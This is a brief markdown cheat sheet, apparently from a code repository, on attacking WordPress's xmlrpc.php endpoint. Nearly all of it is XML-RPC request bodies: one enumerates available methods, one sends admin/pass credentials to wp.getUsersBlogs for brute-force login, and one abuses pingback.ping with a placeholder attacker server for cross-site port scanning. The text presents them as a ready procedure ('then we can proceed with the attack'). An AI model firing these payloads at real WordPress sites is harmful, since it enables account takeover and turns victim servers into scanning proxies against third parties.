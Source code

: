 # Method 1 - Brute force
list all methods

```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

Search for the following , if you find that they are available then we can proceed with the attack
*)wp.getUserBlogs
*)wp.getCategories
*)metaWeblog.getUsersBlogs

 perform the bruteforce login 
 
 ```
 <methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
 ```
 
# Method 2 - XSPA or simply port scanning 
List all the methods and search for the following ‘pingback.ping’

Start your server and send the following request in post data
```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

Source: https://the-bilal-rizwan.medium.com/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32
